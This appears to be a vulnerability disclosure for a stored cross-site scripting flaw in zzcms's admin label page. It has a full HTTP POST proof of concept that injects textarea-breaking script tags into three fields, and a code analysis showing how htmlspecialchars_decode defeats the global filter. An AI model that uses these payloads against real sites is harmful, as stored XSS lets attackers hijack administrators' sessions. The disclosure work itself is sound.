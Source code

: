 ### /admin/labeladclass.php exists stored xss

**Vulnerability Process**

Visit /admin/labeladclass.php

![image-20240826193938485](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826193938485.png)

Then enter the parameters

**POC**

```java
POST /admin/labeladclass.php?action=add HTTP/1.1
Host: zzcms:8786
Content-Length: 258
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://zzcms:8786
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: 	text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://zzcms:8786/admin/labeladclass.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: tablename=zzcms_zhaoshangclass; askclassid=0; PHPSESSID=4pj41bdnhl1msnbrl2lljv1iqm; __51cke__=; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; XDEBUG_SESSION=PHPSTORM; xywpwx_bakrnd=zPwzzERUvdP4; xywpwx_loginebakckpass=03269d863bac377ff8cfb81722e356e3; xywpwx_baklogintime=1724589372; PassWord=4297f44b13955235245b2497399d7a93; UserName=aaaa; userid=1; __tins__713776=%7B%22sid%22%3A%201724603456590%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201724605579607%7D; __51laig__=34
Connection: keep-alive

title=1&title_old=&bigclassid=empty&numbers=1&column=1&start=</textarea><script>alert(1)</script><textarea>&mids=</textarea><script>alert(2)</script><textarea>&ends=</textarea><script>alert(3)</script><textarea>&Submit=%E6%B7%BB%E5%8A%A0%2F%E4%BF%AE%E6%94%B9
```

The default is 1.txt then click on 1.txt

![image-20240826175222468](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826175222468.png)

![image-20240826194020547](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240826194020547.png)

Can pop up 1, 2, 3

This means that xss exists at all three points

Code Analysis

in the labeladclass.php

Actually, there is a global filter for our xss.

But here the incoming parameter is passed through the stripfxg function

```java
$start=stripfxg($_POST["start"],true);
$mids=stripfxg($_POST["mids"],true);
$ends=stripfxg($_POST["ends"],true);
```

看到stripfxg函数

```java
function stripfxg($string,$htmlspecialchars_decode=false,$nl2br=false) {//去反斜杠 
$string=stripslashes($string);//去反斜杠,不开get_magic_quotes_gpc 的情况下，在stopsqlin中都加上了，这里要去了
if ($htmlspecialchars_decode==true){
$string=htmlspecialchars_decode($string,ENT_QUOTES);//转html实体符号
}
if ($nl2br==true){
$string=nl2br($string);
}
return $string; 
}
```

You can see that the htmlspecialchars_decode function is used to decode our input, resulting in no filtering of xss.

Then after the

```java
    <tr> 
      <td align="right" class="border" >解释（开始）</td>
      <td class="border" ><textarea name="start" cols="70" rows="10" id="start" ><?php echo $start?></textarea></td>
    </tr>
    <tr> 
      <td align="right" class="border" >解释（循环）</td>
      <td class="border" ><textarea name="mids" cols="70" rows="5" id="mids" ><?php echo $mids ?></textarea>      </td>
    </tr>
    <tr> 
      <td align="right" class="border" >解释（结束）</td>
      <td class="border" ><textarea name="ends" cols="70" rows="20" id="ends"><?php echo $ends ?></textarea></td>
    </tr>
```

Again, we entered our parameters into the page
